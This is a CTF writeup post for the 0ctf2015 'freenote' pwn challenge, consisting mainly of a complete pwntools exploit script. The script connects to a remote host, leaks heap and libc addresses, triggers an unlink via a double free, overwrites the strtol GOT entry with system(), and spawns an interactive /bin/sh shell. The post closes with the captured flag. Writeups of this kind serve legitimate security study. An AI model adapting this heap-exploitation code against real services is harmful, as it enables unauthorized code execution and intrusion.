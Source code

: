 ```yaml
---
layout: post
title: pwn.blue-lotus.net freenote writeup
catagories: [ctf]
tags: [ctf, writeup, blue-lotus, pwn, exploit]
---
```


> heap overflow，double free

The pwn challenge in 0ctf2015, `freenote`. The Vul is heap overflow, and no check before `free()`,
so we can use `unlink()` to exploit it. Currently, `unlink()` need satisfy some conditions, so it's hard 
to be exploited. And this challenge's binary slightly diff from the 0ctf one.

Dive into code now:

```python
from pwn import *

#io = process("./freenote_alarmff")
io = remote("166.111.132.132", 10001)
bin = ELF("freenote")
libc = ELF("libc-2.19.so")
#libc = ELF("libc.so.6")

offset = 0xf28

#maybe too many notes, only note0 and note1 be used.
for i in range(10):
    io.sendlineafter(": ", "2")
    io.sendlineafter(": ", "256")
    io.sendlineafter(": ", 255*"A")

for i in range(1, 8, 2):
    io.sendlineafter(": ", "4")
    io.sendlineafter(": ", str(i))

padding = 264*"B"
io.sendlineafter(": ", "3")
io.sendlineafter(": ", "0")
io.sendlineafter(": ", "264")
io.sendlineafter(": ", padding)

io.sendlineafter(": ", "1")
data = io.recvrepeat(timeout=1)

pos = data.find(padding)
leak_heap = data[pos+len(padding) + 4: pos + len(padding)+8]
heap_base = u32(leak_heap) - 0xf28
heap_note0 = heap_base + 0x10
print "[+] leaked heap base address: ", hex(heap_base)
print "[+] leaked heap note0 address: ", hex(heap_note0)

padding = p32(256+8) + p32(256) + p32(heap_note0 - 12) + p32(heap_note0 - 8)
padding += (256 - len(padding))*"C"
padding += p32(256) + p32(256+8)
padding += p32(0x01) * 0x30

io.sendline("3")
io.sendlineafter(": ", "0")
io.sendlineafter(": ", str(len(padding)))
io.sendlineafter(": ", padding)

#double free, trige unlink
io.sendlineafter(": ", "4")
io.sendlineafter(": ", "1")

#after double free, note0 -> heapbase + 4, so rewrite it to strtol got
padding = p32(5)
padding += p32(1)
padding += p32(16)
padding += p32(bin.got["strtol"])
padding += (0x1c8 - len(padding)) * "D"
#print "[+] len padding: ", len(padding)

io.sendlineafter(": ", "3")
io.sendlineafter(": ", "0")
io.sendlineafter(": ", str(0x1c8))
io.sendlineafter(": ", padding)

io.sendlineafter(": ", "1")
data = io.recvrepeat(timeout=1)
pos = data.find("0.")
a = data[pos+3: pos+7]
strtol_addr = u32(a)
#print hex(strtol_addr)

system_addr = strtol_addr - libc.symbols["strtol"] + libc.symbols["system"]
print "[+] leak system() address: ", hex(system_addr)

#change strtol to system
io.sendline("3")
io.sendlineafter(": ", "0")
io.sendlineafter(": ", str(16))
io.sendlineafter(": ", p32(system_addr) + "C"*11)

io.sendlineafter(": ", "/bin/sh")
io.interactive()

#flag: 24f494c1-df13-42e4-9061-32eeae2a23a5
#ref: http://winesap.logdown.com/posts/258859-0ctf-2015-freenode-write-up
#ref: https://gbmaster.wordpress.com/2014/08/11/x86-exploitation-101-heap-overflows-unlink-me-would-you-please/
```

Ref: <http://winesap.logdown.com/posts/258859-0ctf-2015-freenode-write-up>
Ref: <https://gbmaster.wordpress.com/2014/08/11/x86-exploitation-101-heap-overflows-unlink-me-would-you-please/>
